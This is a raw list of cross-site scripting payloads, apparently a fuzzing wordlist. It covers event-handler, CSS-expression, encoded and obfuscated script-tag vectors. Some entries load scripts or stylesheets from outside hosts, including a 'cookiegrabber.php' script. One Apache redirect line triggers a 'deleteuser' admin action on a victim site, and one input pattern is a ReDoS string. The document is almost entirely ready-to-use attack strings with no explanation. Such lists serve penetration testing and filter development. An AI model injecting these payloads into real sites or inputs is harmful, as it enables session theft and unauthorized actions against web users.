 <FRAMESET><FRAME SRC=\"javascript:alert('XSS');\"></FRAMESET>
3) <input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"
document.body.runtimeStyle.cssText = '1:expression(alert(1))'
X<x style=`behavior:url(#default#time2)` onbegin=`write(1)` >
<style>@import "data:,*%7bx:expression(write(1))%7D";</style>
<link rel=stylesheet href=data:,*%7bx:expression(write(1))%7d
<comment><img src="</comment><img src=x onerror=alert(1))//">
perl -e 'print \"<SCR\0IPT>alert(\"XSS\")</SCR\0IPT>\";' > out
<A HREF="http://www.gohttp://www.google.com/ogle.com/">XSS</A>
46) <form><button formaction=javascript&colon;alert(1)>CLICKME
2) <svg><style>{font-family&colon;'<iframe/onload=confirm(1)>'
<script xmlns="http://www.w3.org/1999/xhtml">alert(1)</script>
((Number.MAX_VALUE/99808).toString(36).slice(71,76)+'("XSS")')
Redirect 302 /a.jpg http://victimsite.com/admin.asp&deleteuser
<script SRC="http://www.securitycompass.com/xss.jpg"></script>
<;LAYER SRC=";http://ha.ckers.org/scriptlet.html";>;<;/LAYER>;
<SCRIPT a="blah" '' SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<;LINK REL=";stylesheet"; HREF=";javascript:alert(';XSS';);";>;
Redirect 302 /a.jpg http://victimsite.com/admin.asp&;deleteuser
<style>@import'http://www.securitycompass.com/xss.css';</style>
<style TYPE="text/javascript">document.vulnerable=true;</style>
<input TYPE="IMAGE" SRC="javascript:document.vulnerable=true;">
</script></script><<<<script><>>>><<<script>alert(123)</script>
<html><noalert><noscript>(123)</noscript><script>(123)</script>
<?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time">
'""><script language="JavaScript"> alert('X \nS \nS');</script>
36) <style/onload=&lt;!--&#09;&gt;&#10;alert&#10;&lpar;1&rpar;>
<;SCRIPT a=`>;` SRC=";http://ha.ckers.org/xss.js";>;<;/SCRIPT>;
%2BADw-script+AD4-alert(document.location)%2BADw-/script%2BAD4-
<SCRIPT FOR=document EVENT=onreadystatechange>alert(1)</SCRIPT>
<script>history.pushState(0,0,'/i/am/somewhere_else');</script>
location=<text>javascr{new Array}ipt:aler{new Array}t(1)</text>
<body onload!#$%&()*~+-_.,:;?@[/|\]^`=document.vulnerable=true;>
35) <script itworksinallbrowsers>/*<script* */alert(1)</script ​
37) <///style///><span %2F onmousemove='alert&lpar;1&rpar;'>SPAN
perl -e 'print \"<IMG SRC=java\0script:alert(\"XSS\")>\";' > out
a="get";b="URL";c="javascript:";d="alert('xss');";eval(a+b+c+d);
<script+src=">"+src="http://yoursite.com/xss.js?69,69"></script>
<script>alert(1337)</script><marquee><h1>XSS by 1</h1></marquee>
<! foo="[[[Inception]]"><x foo="]foo><script>alert(1)</script>">
<div style="background:url(/f#&#127;oo/;color:red/*/foo.jpg);">X
123[''+<_>ev</_>+<_>al</_>](''+<_>aler</_>+<_>t</_>+<_>(1)</_>);
<object data=data:text/html;,%3cscript%3ealert(4);%3c/script%3e>
<a href="about:<script>document.write("XSS-XSS-XSS");</script>">
<div style="width: expression(document.write("XSS-XSS-XSS"););">
<DIV STYLE="background-image: url(&#1;javascript:alert('XSS'))">
<style>@im\port'\ja\vasc\ript:document.vulnerable=true';</style>
<script>document.vulnerable=true;</script>
[\xC0][\xBC]script>document.vulnerable=true;[\xC0][\xBC]/script>
<;LINK REL=";stylesheet"; HREF=";http://ha.ckers.org/xss.css";>;
13) <iframe/src="data:text/html,<svg &#111;&#110;load=alert(1)>">
<a style="-o-link:'javascript:alert(1)';-o-link-source:current">X
<input pattern=^((a+.)a)+$ value=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!>
<script src="http://www.evilsite.org/cookiegrabber.php"></script>
<@uni>0[<@/uni>'<@oct>ev<@/oct><@hex>al<@/hex>'<@uni>](e)<@/uni> 
<? echo('<SCR)';echo('IPT>document.vulnerable=true</SCRIPT>'); ?>
<;SCRIPT a=";>;"; SRC=";http://ha.ckers.org/xss.js";>;<;/SCRIPT>;
45) "><img src=x onerror=window.open('https://www.google.com/');>
</C></X></xml><SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>
<;A HREF=";h&#x0A;tt&#09;p://6&;#09;6.000146.0x7.147/";>;XSS<;/A>;
<;SCRIPT =";blah"; SRC=";http://ha.ckers.org/xss.js";>;<;/SCRIPT>;
perl -e ';print ";<;IM SRC=java\0script:alert(";XSS";)>";;';>; out